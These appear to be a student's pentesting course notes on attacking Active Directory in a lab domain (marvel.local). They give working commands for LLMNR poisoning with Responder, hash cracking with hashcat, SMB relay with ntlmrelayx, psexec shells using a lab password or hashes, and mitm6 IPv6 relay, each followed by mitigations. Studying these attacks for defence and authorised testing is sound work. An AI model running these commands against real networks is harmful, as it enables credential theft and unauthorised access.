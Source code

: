 
- for impacket v 0.9.19 [reference](https://github.com/Dewalt-arch/pimpmykali)
## LLMNR Poisoning 
- For [reference](https://tcm-sec.com/llmnr-poisoning-and-how-to-prevent-it/)
- Used to identify hosts when DNS fails to do so
- Previously known as NBT-NS
- Key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded to   
-  `sudo responder -I eth0 -dwPv` -- this will give hash for user
- `hashcat --help | grep NTLM` -- this will give all module for NTLM in hashcat
- `hashcat -m 5600 hashes.txt /path/to/wordlist`
###### Mitigation
- To disable LLMNR and NBT-NS
	- `Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client > Turn Off Multicast Name Resolution > enable`
- If a company must use or cannot disable LLMNR/NBT-NS, the best course of action is 
	- Require Network Access Control
	- Require long and complex user passwords

## SMB Relay Attacks
- For [reference](https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/)
- Instead of cracking hashes gathered with Responder, we can instead relay hose hashes to specific machines and potentially gain access.
- Requirement:
	- SMB signing must be **disabled** or **not enforced** on the target.
	- Relayed user credentials must be admin on machine for any any real value
- By default, SMB signing is not enabled or enforced on workstations. It is enabled or enforced on servers
- `nmap --script=smb2-security-mode -p445 IP -Pn`
- SMB Relay
	- `sudo mousepad /etc/responder/Responder.conf` SMB and HTTP off
	- `sudo responder -I eth0 -dwP`
	- Now we have to set up NTML relay
		- `ntlmrelayx.py -tf targets.txt -smb2support` or 
		- `ntlmrelayx.py -tf targets.txt -smb2support -i` -- i for interactive session 
		- after getting interactive session use `nc 127.0.0.1 1100`
		- or `ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"` 
- In lab try it on user-2
###### Mitigation
- Enable SMB Signing on all devices
	- Pro: Completely stops the attack
	- Con: Can cause performance issues with file copies
- Disable NTLM authentication on network
	- Pro: Completely stops the attack
	- Con: if Kerberos stops working, windows defaults back to NTLM
- Account tiering
	- Pro: Limits domain admins to specific tasks (e.g. only log onto servers with need for DA)
	- Con: Enforcing the policy may be difficult
- Local admin restriction
	- Pro: Can prevent a lot of lateral movement
	- Con: Potential increase in the amount of service desk tickets

## Gaining Shell Access
- using psexec in msf  --- we can do this with password or hashes (NT:LM)
- `psexec.py marvel.local/pparker:'passw0rd@123'@10.0.2.14`
- `psexec.py administrator@10.0.2.14 -hashes [hashes for administrator NT:LM]`
- if psexec gets blocked you can use `wmiexec.py` or `smbexec.py`

## IPV6 Attacks
- `sudo mitm6 -d marvel.local`
- Now we have to set up NTLMrelay (after setup run mitm6 cmd)
	- `ntlmrelayx.py -6 -t ldaps://[Doman Controller IP] -wh fakewpad.marvel.local -l lootme` 
###### Mitigation
- IPV6 poisoning abuses the fact that Windows queries for an IPV6 address even in IPV4-only environments. If you do not use IPV6 internally, the safest way to prevent mitm6 is to block DHCPv6 traffic and incoming router advertisements in Windows Firewall via Group Policy. Disabling IPV6 entirely may have unwanted side effects. Setting the following predefined rules to Block instead of Allow prevents the attack from working:
	- (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPV6 (DHCPv6-In)
	- (Inbound) Core Networking - Router Advertisement (ICMPv6-In)
	- (Outbound) Core Networking - Dynamic Host Configuration Protocol for IPV6 (DHCPv6-Out)
- If WPAD is not in use internally, disable it via Group Policy and by disabling the WinHttpAutoProxySvc service.
- Relaying to LDAP and LDAPS can only be mitigated by enabling both LDAP sigining an LDAP channel binding
- Consider Administrative users to the Protected Users group or marking them as Account is sensitive and cannot be delegated, which will prevent any impersonation of that user via delegation.

## Passback Attack
- [Reference](https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack

## Initial Internal Attack Strategy
- Begin day with mitm6 or Responder
- Run scans to generate traffic
- If scans are taking too long, look for websites in scope (http_version)
- Look for default credentials on web logins
	- Printers
	- Jenkins
	- Etc
- Think outside the box